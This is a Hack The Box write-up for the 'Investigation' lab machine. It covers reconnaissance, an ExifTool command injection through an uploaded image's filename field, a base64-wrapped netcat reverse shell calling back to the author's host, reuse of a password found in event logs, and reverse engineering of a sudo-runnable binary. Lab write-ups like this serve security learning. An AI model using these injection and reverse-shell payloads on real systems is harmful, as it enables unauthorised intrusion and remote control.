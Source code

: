 # HTB - Investigation
# Start: 28/02/2023
# IP 10.10.11.197

## Info gathering
### Nmap
```
 nmap -sV -sC investigation.htb -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-28 14:52 GMT
Nmap scan report for investigation.htb (10.10.11.197)
Host is up (0.013s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 2f1e6306aa6ebbcc0d19d4152674c6d9 (RSA)
|   256 274520add2faa73a8373d97c79abf30b (ECDSA)
|_  256 4245eb916e21020617b2748bc5834fe0 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41
|_http-title: Did not follow redirect to http://eforenzics.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
6969/tcp open  http    SimpleHTTPServer 0.6 (Python 3.8.10)
|_http-server-header: SimpleHTTP/0.6 Python/3.8.10
|_http-title: Directory listing for /
Service Info: Host: eforenzics.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
Interesting:
- Redirect to eforenzics.htb
- secondary http server with directory listing

adding the redirect to host file, no change in nmap

### WebContent
#### http://eforenzics.htb/

##### /service.html
allows for a .jpg file to be uploaded and returns a link to `/analysed_images/`, a sample output is as follows
```
ExifTool Version Number         : 12.37
File Name                       : White-faced Saki Monkey image.jpg
Directory                       : .
File Size                       : 7.4 KiB
File Modification Date/Time     : 2023:02:28 18:43:27+00:00
File Access Date/Time           : 2023:02:28 18:43:27+00:00
File Inode Change Date/Time     : 2023:02:28 18:43:27+00:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Exif Byte Order                 : Little-endian (Intel, II)
Software                        : Google
Exif Version                    : 0220
Exif Image Width                : 275
Exif Image Height               : 183
Image Width                     : 275
Image Height                    : 183
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 275x183
Megapixels                      : 0.050
```
The tool used to generate is listed at the top, ExifTool v12.37
Interesting:
- Exiftool 12.37 is vunerable to command injection < 12.38 (https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429)


Other process run:
- gobuster returned nothing interesting
#### SimpleHTTP port 6969
Interesting:
- Contains 2 files, one is empty (analyzed log)
- The other is some sort of message file, using an online .msg reader, there is one zip attachment with a windows log file (.evtx)

### Event Logs
Interesting:
- Domain:EFORENZICS-DI
- accounts: SMorton,AAnderson,Administrator,(a lot)


## Exploiting
its enough to upload one image and save it into burpsuite repeater so you can edit the filename field within the form-data,
to confirm the vulnerability was exploitable i used `filename="echo 'curl 10.10.14.58:8000' | bash |"` which did indeed call back to my host.

if we add any other pipes to the command e.g. > the command will fail to run, however we can pass a b64 encoded command, pipe it to the base64 -d command to decode and pipe the result into bash to run it, which avoids the other pipes breaking it.

```
curl 10.10.14.58:8000/?d=$(rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.58 4444 >/tmp/f)
b64 encoded:
Y3VybCAxMC4xMC4xNC43MDo4MDAwLz9kPSQocm0gLWYgL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTQuNzAgNDQ0NCA+L3RtcC9mKQ==

filename="echo 'Y3VybCAxMC4xMC4xNC41ODo4MDAwLz9kPSQocm0gLWYgL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTQuNTggNDQ0NCA+L3RtcC9mKQ==' | base64 -d | bash |"

```

```
nc -lvnp 4444                                            
Listening on 0.0.0.0 4444
Connection received on 10.10.11.197 33714
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data


```

We have internal access to the box!
### Host info gathering
Running linpeas first as we are in a linux server

users with console:
```
root:x:0:0:root:/root:/bin/bash
smorton:x:1000:1000:eForenzics:/home/smorton:/bin/bash
```
```
══╣ Possible private SSH keys were found!
/etc/ImageMagick-6/mime.xml
```
```
╔══════════╣ Analyzing Other Interesting Files Files (limit 70)
-rw-r--r-- 1 root root 3771 Feb 25  2020 /etc/skel/.bashrc

```
### Event Logs (part 2)
I missed something important within the event log, i searched for the typical event ID:4624 which is successful login, but i did not check 4625, where we can find someone trying to login with the password as the username! Silly!
Password found `Def@ultf0r3nz!csPa$$`

```
$ su smorton 
Password: Def@ultf0r3nz!csPa$$
whoami
smorton

```
and we're in to a legit user!

### Privilage escalation

running lp again, we find that we can run one file as sudo 
```

User smorton may run the following commands on investigation:
    (root) NOPASSWD: /usr/bin/binary

```
running the file we just see it exiting... we may have to look a little deeper at this file to see if it is expecting any argument from us

i opened this file in ghidra and IDA free, im still unsure of which one i prefer, have to do more dissassembeling... i looked at the assembly
I'm just gonna paste IDA's output, i can read both just fine but ida spreads the codeblocks+if statements out in a tree like formation vs ghidras big long list


```
cmp     [rbp+var_44], 3
```
IDA free also has a cloud decompiler tool which is nice, but obviously i'd prefer to keep this all on my own machine, but it tells us this results in
```
  if ( argc != 3 )
```
argc is short for arg count, so the number of arguments we have to pass to this is 3, typically linux programs filename is the 1st argument so we have 2 to add.
moving on, we can see another comparison, a strcmp call
```
loc_1481:
mov     rax, [rbp+var_50]
add     rax, 10h
mov     rax, [rax]
lea     rsi, s2         ; "lDnxUysaQn"
mov     rdi, rax        ; s1
call    _strcmp
test    eax, eax
```
so the logic here is kinda backwards i guess, the 3rd argument, [2] as 0 counts as first entry must be this string or the program exits.
```
 if ( strcmp(argv[2], "lDnxUysaQn") )
  {
    puts("Exiting... ");
    exit(0);
  }
```
This next segment is a bit long so ill group what's interesting and explain it
```
lea     rdi, aRunning   ; "Running... "
...
lea     rsi, modes      ; "wb"
mov     rdi, rax        ; filename
call    _fopen
mov     [rbp+stream], rax
call    _curl_easy_init
...
mov     eax, 0
call    _curl_easy_setopt
mov     rax, [rbp+var_20]
mov     rdi, rax
call    _curl_easy_perform
mov     [rbp+var_2C], eax
cmp     [rbp+var_2C], 0
jnz     loc_166A

... (if jump)
loc_166A:
lea     rdi, s          ; "Exiting... "

```

Hope that's understandable :| So what we should see given correct input up to this point is `Running...`, the program then goes on to open a file to write and begins the curl process, so its safe to assume we're curling a file to disk and from the dissassembled view we can confirm its using the second argument as the source `  curl_easy_setopt(v5, 10002LL, argv[1]);` , which means we may be able to download files hosted by us, no execution yet but we haven't finished yet!
Then if the program fails the process exits, but if it doesn't fail, we move on!
